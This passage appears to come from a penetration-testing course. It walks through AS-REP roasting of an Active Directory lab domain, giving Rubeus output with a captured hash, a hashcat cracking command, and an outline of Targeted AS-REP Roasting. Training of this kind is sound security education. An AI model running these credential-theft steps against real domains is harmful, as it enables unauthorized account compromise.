 ```bash
PS C:\Tools> .\Rubeus.exe asreproast /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: AS-REP roasting

[*] Target Domain          : corp.com

[*] Searching path 'LDAP://DC1.corp.com/DC=corp,DC=com' for '(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))'
[*] SamAccountName         : dave
[*] DistinguishedName      : CN=dave,CN=Users,DC=corp,DC=com
[*] Using domain controller: DC1.corp.com (192.168.50.70)
[*] Building AS-REQ (w/o preauth) for: 'corp.com\dave'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$dave@corp.com:AE43CA9011CC7E7B9E7F7E7279DD7F2E$7D4C59410DE2984EDF35053B7954E6DC9A0D16CB5BE8E9DCACCA88C3C13C4031ABD71DA16F476EB972506B4989E9ABA2899C042E66792F33B119FAB1837D94EB654883C6C3F2DB6D4A8D44A8D9531C2661BDA4DD231FA985D7003E91F804ECF5FFC0743333959470341032B146AB1DC9BD6B5E3F1C41BB02436D7181727D0C6444D250E255B7261370BC8D4D418C242ABAE9A83C8908387A12D91B40B39848222F72C61DED5349D984FFC6D2A06A3A5BC19DDFF8A17EF5A22162BAADE9CA8E48DD2E87BB7A7AE0DBFE225D1E4A778408B4933A254C30460E4190C02588FBADED757AA87A
```

Rubeus identified dave as vulnerable to AS-REP Roasting and displays the AS-REP hash.

Next, let's copy the AS-REP hash and paste it into a text file named hashes.asreproast2 in the home directory of user kali. We can now start Hashcat again to crack the AS-REP hash.

```bash
kali@kali:~$ sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

Let's assume that we are conducting an assessment in which we cannot identify any AD users with the account option Do not require Kerberos preauthentication enabled. While enumerating, we notice that we have GenericWrite or GenericAll permissions5 on another AD user account. Using these permissions, we could reset their passwords, but this would lock out the user from accessing the account. We could also leverage these permissions to modify the User Account Control value of the user to not require Kerberos preauthentication.6 This attack is known as Targeted AS-REP Roasting. Notably, we should reset the User Account Control value of the user once we've obtained the hash.

### Kerberoasting
